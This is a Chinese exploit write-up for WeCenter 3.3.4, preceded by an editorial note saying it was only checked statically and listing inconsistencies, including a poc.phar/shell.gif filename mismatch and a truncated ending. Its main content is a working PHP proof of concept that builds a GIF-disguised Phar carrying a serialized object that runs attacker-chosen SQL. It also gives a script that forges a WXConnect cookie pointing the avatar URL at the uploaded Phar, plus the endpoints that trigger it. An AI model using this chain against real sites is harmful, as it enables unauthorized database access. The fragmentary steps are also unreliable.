

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：注册会员上传问题附件、WXConnect可控并绑定、头像同步解析Phar、旧PHP

- **结论使用边界（1）**：标题SQLi实际对象注入控制_shutdown_query，需改根因并标会员。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：生成poc.phar却称shell.gif，缺改名；绑定/同步给源码路径非完整路由。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **代码与转录边界（3）**：末尾任意截断；openid核验/SQL错误回显缺文本。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WeCenter 3.3.4 前台sql注入

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 任意sql语句执行

**system/aws\_model.inc.php:\_\_destruct()** 方法中存在任意 **SQL**
语句执行。

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('select updatexml(1,concat(0x3a,md5(233),0x3a),1)');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。

记录下上传后的目录

#### 生成并设置`COOKIE`中的`WXConnect`值

    <?php
        $arr = array();
        $arr['access_token'] = array('openid' => '1');
        $arr['access_user'] = array();
        $arr['access_user']['openid'] = 1;
        $arr['access_user']['nickname'] = 'naiquan';
        $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
        echo json_encode($arr);
    ?>

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`

提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`

任意
